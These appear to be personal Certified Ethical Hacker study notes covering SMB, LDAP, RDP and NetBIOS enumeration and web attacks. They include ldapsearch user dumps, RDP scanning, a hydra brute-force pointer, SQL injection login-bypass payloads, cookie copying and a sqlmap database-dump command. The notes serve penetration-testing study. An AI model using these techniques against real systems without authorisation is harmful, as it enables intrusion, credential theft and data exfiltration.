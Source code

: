 
You can also connect to smb with a gui, simply go to the file explorer and type in the address `smb://{ip}`

### LDAP

1. Get User Accounts: (NOTE* Guest are NOT users):
    
    `ldapsearch -x -h 10.0.0.5 -p 389 -b "dc=HOME,dc=com" "(objectClass=user)" | grep "dn:"`
    
    or (simpler)
    
    `ldapsearch -x -b "dc=HOME,dc=com" -H ldap://10.0.0.5 -W "objectclass=user"`
    
2. Find ldap version: `ldapsearch -x -b "dc=HOME,dc=com" -H ldap://10.0.0.5`

### RDP

To find out if the target has RDP we can use:

- `nmap -p 3386 {ip}` OR `nmap -A {ip}` if the target is using an unconventional port for rdp
- metasploit: `auxiliary/scanner/rdp/rdp_scanner`
    
    ![Untitled](CEH%20Notes%20(Personal)%205fd56f13be54493ca0bc11db3f428466/Untitled%203.png)
    

To brute force credentials use `hydra`

To connect to rdp use `remmina` OR `xfreerdp /u:administrator /p:qwerty /v:10.0.0.5:3333`

### NetBIOS

Uses ports 137, 138, 139

- `nmap -sV --script nbstat.nse {ip}`
- We can also get the netbios name with `nmap -A {}`

# Webservers & Webapps

- Find the version of a webserver: `httprecon`
- Find the HTTP server used by a web-app: `ID Serve`
- SQL Injection Steps:
    1. For a simple manual SQL injection: (to get initial access)
        1. Username: `‘ OR 1=1--`
        2. we can also try Username: `' OR 1=1 #`
        3. Passdowd: `‘’`
    2. Open up “inspect element” anywhere in the page → go to the “console” tab → type in `document.cookie` → save or copy the output
    3. Run SQL map: `sqlmap -u http://testwebsite.com/viewprofile.aspx?id=1 --cookie="{step2}" -a`
        
        ^ From here we just have to scroll to search for the database
        